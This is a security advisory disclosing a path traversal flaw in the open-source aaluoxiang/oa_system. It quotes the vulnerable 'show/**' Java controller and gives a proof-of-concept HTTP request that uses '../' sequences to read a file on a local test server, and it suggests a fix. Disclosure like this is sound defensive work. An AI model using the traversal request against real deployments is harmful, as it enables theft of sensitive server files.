 # Vulnerability Description

The open source OA office automation system [aaluoxiang/oa_system](https://gitee.com/aaluoxiang/oa_system) has another API with an arbitrary file read vulnerability (route is "show/**"), which allows attackers to read files in any path on the server, resulting in sensitive information leakage.

- Vulnerability Discloser: [Honor Cyber Security Lab](https://github.com/honorseclab)

- Vendors: [aaluoxiang/oa_system](https://gitee.com/aaluoxiang/oa_system)

- Source code address：[aaluoxiang/oa_system](https://gitee.com/aaluoxiang/oa_system)

Note: 

- **This vulnerability was discovered automatically by my AI code audit tool**.

- Since the author has not released a release package, the version number cannot be determined. The author's latest commit is 2024-08-15. I downloaded the latest code of this project on 20250528 and found the vulnerability.

# Vulnerability Analysis

The vulnerability code entry point is located at：

- [https://gitee.com/aaluoxiang/oa_system/blob/master/src/main/java/cn/gson/oasys/controller/process/ProcedureController.java#L944](https://gitee.com/aaluoxiang/oa_system/blob/master/src/main/java/cn/gson/oasys/controller/process/ProcedureController.java#L944)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
    // src\main\java\cn\gson\oasys\controller\process\ProcedureController.java:image
        @RequestMapping("show/**")
        public void image(Model model, HttpServletResponse response, @SessionAttribute("userId") Long userId, HttpServletRequest request)
                throws IOException {
            String startpath = new String(URLDecoder.decode(request.getRequestURI(), "utf-8")); // <-------           
            String path = startpath.replace("/show", "");            
            File f = new File(rootpath, path);  // <-------
            System.out.println(f.getAbsolutePath());
            ServletOutputStream sos = response.getOutputStream();
            FileInputStream input = new FileInputStream(f.getPath());
            byte[] data = new byte[(int) f.length()];
            IOUtils.readFully(input, data);
            // 将文件流输出到浏览器
            IOUtils.write(data, sos);
            input.close();
            sos.close();
        }
```
As you can see, this interface uses the value of the URI (request.getRequestURI()) that is fully controllable by the outside world as part of the path of the server file to be read. Since no security verification is done, attackers can construct malicious file paths through "../" to read sensitive files on the server across directories.

# Vulnerability Verification

Please deploy the project code and test environment locally according to the instructions in the Readme.md file provided by the author. Then visit the login page through http://ip:8088, log in with the default account and password, and obtain a valid "JSESSIONID" request header.

The vulnerability proof of concept (POC) is as follows:

```js
GET /show/show/../../show/passwd.txt HTTP/1.1
Host: 192.168.17.108:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://192.168.17.108:8088/index
Cookie: JSESSIONID=C5E250A230485C6D80083826888DA15B
Upgrade-Insecure-Requests: 1
Priority: u=4

```

Below are two screenshots of the verification of this path traversal vulnerability after I deployed the environment on my own Windows machine：
![图片](https://github.com/user-attachments/assets/a1ab1494-8942-48d4-981b-7178a89b070a)
![图片](https://github.com/user-attachments/assets/dc736f33-1fe0-46c8-8107-1c557b540349)

# Security Suggestions

Check the legitimacy of the URI passed by the front end and limit illegal characters such as "../".
